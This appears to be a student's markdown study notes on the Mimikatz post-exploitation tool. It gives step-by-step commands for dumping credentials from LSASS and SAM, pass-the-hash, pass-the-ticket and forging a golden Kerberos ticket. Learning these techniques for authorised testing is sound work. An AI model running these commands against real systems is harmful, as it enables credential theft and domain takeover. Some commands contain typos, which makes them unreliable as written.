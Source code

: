# Mimikatz
The de factor blackhat/whitehat credential manipulation tool.
Post exploitation tool to retrieve/handle credentials in various formats.
https://adsecurity.org/?page_id=1821 (unofficial guide)

## Basics
- reads from LSASS memory to retrieve AD credentials
    - Cleartext passwords (depends on Windows version and GPO settings)
    - NTLM hashes ("pass-the-hash" and "pass-the-ticket")
    - Kerberos (build custom (golden) tickets)
- reads from SAM process to retrieve local credentials (same/similar to LSASS)
- needs to be run as admin (or better needs the debug "SeDebugPrivilege" priviledge) and elevated high (UAC)

*Remark: we could also get a memory dump via Task Manager !!!(without Mimikatz)*

**Extract credentials (SAM + LKSASS)**
-> see pdf "05F Credential Abuse.pdf"

**DCSync**
Replicating directly from domain controller. Simulate a DC asking another DC to replicate one or more object incl. credentials
Requires specific privileges.

**Other**
- impersonating tokens
- -> see pdf "05F Credential Abuse.pdf"

## Dump Logon passwords from Lsass.exe 

1. `.\mimikatz.exe`  -> start mimikatz prompt
2. `privilege::debug` -> aquire debug privilege to spy into other processes (which we have to be admin)
    - expected response: "Privilege '20' OK"
3. `log my_log.txt` -> enable logging (highly recommended)
4. `sekurlsa::logonpasswords` ->  retrieve our credentials
    - Check the output for NTLM hash


## Dump local passward from SAM
1. If mimikatz is not started yet: `.\mimikatz.exe` 
2. `token::elevate` -> elevate our permissions to SYSTEM  (see UAC levels, needed for SAM)
3. if not done before: `log my_log.txt` -> enable logging (highly recommended)
3. `lsadump::sam` -> will dump content SAM
    - Check the output for NTLM hash


## Kerbersos 
**Over-pass-the-hash**
1. `.\mimikatz.exe`  -> start mimikatz prompt
2. `privilege::debug` -> aquire debug privilege to spy into other processes (which we have to be admin)
3. `seurlsa::pth /user:Administrator /domain:chocolate.locl /ntlm.cc36.....`

**Pass-the-ticket**
Something like: 
- "sekurlsa::tickets [/export]"  -> see pdf
- kerberos::ptt path/to/ticket.kirbi -> see pdf

**Golden/Silver ticket** 
Golden ticket: `mimikatz kerberos::golden /user:dfm /domain:testlab.local /sid:S-1-5-21-883232822-274137685-4173207997 /krbtgt:b3c87251042db43980ef7607733fda72 /ptt`  (via Cobal strike, see pdf)

Silver ticket is similar just for a specific service.


## Connect via RDP if we only have the hash 
see lab task "Lateral Movement/Abusing Domain Admin"
